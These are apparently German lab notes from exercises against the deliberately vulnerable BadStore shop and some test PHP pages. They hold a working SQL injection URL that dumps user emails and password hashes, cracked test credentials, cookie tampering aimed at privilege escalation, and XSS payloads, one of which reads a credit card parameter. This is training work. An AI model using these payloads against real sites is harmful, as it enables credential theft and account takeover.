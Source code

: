 ## 6.5. Broken Access Control
### Erst mittels SQL Injection an die User Daten kommen:
```SQL
http://192.168.178.119/cgi-bin/badstore.cgi?searchquery=xx%27+IN+(itemnum,sdesc,ldesc)+union+select+email,passwd,null,null+from+userdb+LIMIT+2+--+&action=search&x=16&y=7
``` 

- User ist "AAA_Test_User", Passwort ist "098F6BCD4621D373CADE4E832627B4F6"

### Dann mittels https://hashes.com/en/decrypt/hash das Passwort rausfinden
- Die Daten sind *AAA_Test_user:test*

### Jetzt Cookie Tampering, um Privilege Escalation zu machen und Admin zu werden
- Cookie ist *SSOid=UFBX1Rlc3RfdXNlcjowOThmNmJjZDQ2MjFkMzczY2FkZTRlODMyNjI3YjRmNjpUZXN0IFVzZXI6%0AVQ%3D%3D%0A*
- Erst URL Decode: *UFBX1Rlc3RfdXNlcjowOThmNmJjZDQ2MjFkMzczY2FkZTRlODMyNjI3YjRmNjpUZXN0IFVzZXI6
VQ==*
- Vllt. base64 decode?

## 6.7 - 1.php
### Versuche die URL des Dokumentes anzuzeigen
```Javascript
<script>alert(window.location.href);</script>
```

### "action" Feld der "form" modifizieren, um zu einer anderen URL weiterzuleiten
- über die Konsole folgendes machen
```Javascript
document.getElementsByTagName("form")[0].action = "2.php";
```

## 6.7.1 - 1.php
### Cookie Tampering um eine Javascript Injection durchzuführen
```Javascript
%3Cscript%3Ealert%28%22hi%22%29%3C%2Fscript%3E%2C2%2C7.5%3Bother%2Bitem%2C1%2C3.2
```

### Credit Card Number ausgeben
```Javascript
<SCRIPT>alert(decodeURIComponent(new URLSearchParams(window.location.search).get('cc_number')))</SCRIPT>%2C2%2C7.5%3Bother+item%2C1%2C3.2
```

### 2.php ausführen
```Javascript
document.getElementsByTagName("FORM")[0].action = "2.php";
```